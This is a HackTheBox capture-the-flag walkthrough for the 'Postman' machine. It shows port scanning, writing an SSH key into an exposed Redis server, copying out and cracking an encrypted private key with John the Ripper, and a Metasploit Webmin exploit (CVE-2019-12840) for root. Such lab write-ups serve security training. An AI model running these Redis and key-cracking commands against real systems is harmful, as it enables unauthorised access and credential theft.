 ```yaml
---
title: HackTheBox - Postman
date: 2021-01-01 01:25:15 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, redis, ssh2john, John The Ripper, miniserv, webmin, CVE-2019-12840, metasploit, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/Postman.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Postman-full-port-scan.txt 10.10.10.160
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

### Apache/2.4.29 (port 80)

![Apache port 80](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/80.png)

![dirb port 80](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/80-dirb.png)

### Miniserv (port 10000)

First we got an error:

![10000 miniserv error](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/10000-miniserv.png)

After adding `10.10.10.160 postman` to `/etc/hosts` we are redirected to:

![webmin](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/10000-webmin.png)

Thanks to [nmap scan](#nmap-scan) we know we're dealing with version **1.910**:

![searchsploit webmin](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/webmin-searchsploit.png)

Unfortunately the metasploit exploit requires credentials.

### Redis 4.0.9 (port 6379)

According to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh), redis home directory is often `/var/lib/redis/`. Let's try to have a shell:

```bash
$ ssh-keygen -t rsa -f postman_rsa
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
$ cat foo.txt | redis-cli -h $TARGET -x set crackit
OK
# Don't know why but I had to do it twice
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
```

![shell](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/shell.png)

## User (redis)

If we go to the `/home` directory, we see there is a user called Matt.

I tried to list the files that he owns:

![find files owned by Matt](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/find_Matt.png)

The first file `/opt/id_rsa.bak` seems interesting.

We can see it;s an encrypted RSA key:

```bash
$ redis@Postman:/home/Matt$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----                     
Proc-Type: 4,ENCRYPTED
#...
```

We can transfer it yo our machine usinh `scp`:

```bash
$ scp -i postman_rsa redis@$TARGET:/opt/id_rsa.bak . 
```

Then we can convert using `ssh2john` and run **JohnTheRipper**:

```bash
$ /usr/share/john/ssh2john.py id_rsa.bak > matt_rsa.john
$ john matt_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:04 DONE (2021-01-01 01:03) 0.2500g/s 3585Kp/s 3585Kc/s 3585KC/s  0125457423 ..*7¡Vamos!
Session completed
```

`computer2008` is the passphrase!

## User (Matt)

```bash
$ ssh -i id_rsa.bak Matt@$TARGET
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
```

This did'nt work so I tried:

```bash
redis@Postman:~$ su Matt
Password: # computer2008
Matt@Postman:/var/lib/redis$ cd
Matt@Postman:~$ cat user.txt
99108a54ba44c99889199e3e53fdacfe
```

We can log in to **webmin** using Matt's credentials:

![webmin](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/webmin.png)

Therefore we can run the metasploit exploit &darr; 

![msf-webmin](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/msf-webmin.png)
![msf](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/msf.png)

## Root

![webmin](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/postman/root_flag.png)
___

## Useful links

- [6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)
- [CVE-2019-12840](https://cvedetails.com/cve/CVE-2019-12840/)
- [Webmin 1910 Package Updates Remote Command Execution](https://www.pentest.com.tr/exploits/Webmin-1910-Package-Updates-Remote-Command-Execution.html)